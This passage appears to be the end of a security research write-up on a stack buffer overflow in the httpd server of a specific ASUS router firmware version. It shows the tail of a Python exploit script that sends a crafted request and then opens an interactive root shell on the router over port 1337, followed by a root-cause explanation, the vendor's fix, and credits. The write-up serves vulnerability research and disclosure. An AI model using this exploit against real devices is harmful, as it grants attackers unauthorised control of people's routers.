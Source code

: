 ```python
p = remote(HOST,PORT)
print p.recvrepeat(1)

p.send(header)
print p.recvrepeat(2)
p.close()

print("Please wait for about 8 seconds MAX")

import time

time.sleep(8)
# Connect to telnet
getShell = remote("router.asus.com",1337)
print getShell.recvuntil("#")
print getShell.recvrepeat(0.4)
getShell.sendline("uname -a")
print getShell.recvrepeat(0.5)
getShell.interactive()
```

# Conclusion

The firmware version (3.0.0.384.20308) is vulnerable to a stack buffer overflow because the `httpd` binary does not check for length of the URL before processing while checking characters against the XSS Blacklist. The patched version however added one line to check that if the URL path now exceeds over 0x100 and when that happens, it terminates the path processing.

# Credits

The exploit written was highly inspired by the [PagedOut Magazine](https://pagedout.institute/download/PagedOut_001_beta1.pdf) on page 57 `"The Router Security Is Decadent and Depraved"`. The exploit written in this post was also inspired by [Ngo Wei Lin (@Creastery)](https://twitter.com/Creastery)’s exploit template for a similar root cause which was also based on the magazine’s.

We are also thankful to [Hacker_Chai](https://twitter.com/Hacker_Chai) for the link to the StackOverflow post which help solve the issue of SIGILL when trying to re-run the binary in GDB. That had helped alot when debugging in GDB without the need to always restart GDB and wait for the httpd binary to re-run in the router.